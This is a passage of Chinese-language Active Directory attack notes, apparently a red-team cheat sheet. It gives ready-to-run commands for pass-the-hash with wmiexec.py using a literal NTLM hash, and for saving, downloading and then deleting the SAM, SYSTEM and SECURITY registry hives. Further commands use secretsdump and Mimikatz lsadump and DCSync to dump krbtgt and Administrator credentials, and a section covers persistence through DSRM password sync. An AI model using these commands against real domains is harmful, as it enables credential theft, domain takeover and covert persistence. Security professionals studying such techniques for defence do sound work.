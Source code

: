 
恢复方法2
通过wmic, pass the hash 拿到域控制器中的本地管理员权限(域管)
```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8adfc85c3490040e942ae1e6c68f645e test.local/Administrator@10.211.55.38
```
然后分别执行,拷贝本机中SAM数据库到本地
```
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save
```

提取明文hash
```
secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
然后恢复。
​    
#### 获取AD哈希 
* 使用VSS卷影副本 
* Ntdsutil中获取NTDS.DIT​​文件 
* PowerShell中提取NTDS.DIT -->[Invoke-NinaCopy ](https://github.com/clymb3r/PowerShell/tree/master/Invoke-NinjaCopy)
* 使用Mimikatz提取 

```
mimikatz lsadump::lsa /inject exit 
```
* 使用PowerShell Mimikatz
* 使用Mimikatz的DCSync 远程转储Active Directory凭证
提取 KRBTGT用户帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：krbtgt"exit
```
管理员用户帐户提取密码数据：
```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:rd.adsecurity.org /user：Administrator" exit

```
* NTDS.dit中提取哈希 
使用esedbexport恢复以后使用ntdsxtract提取 

#### AD持久化 
##### 活动目录持久性技巧 
https://adsecurity.org/?p=1929 
DS恢复模式密码维护 
DSRM密码同步 
>Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，Windows Server 2003不支持DSRM密码同步。KB961320:https://support.microsoft.com/en-us/help/961320/a-feature-is-available-for-windows-server-2008-that-lets-you-synchroni,可参考：[巧用DSRM密码同步将域控权限持久化](http://drops.xmd5.com/static/drops/tips-9297.html)

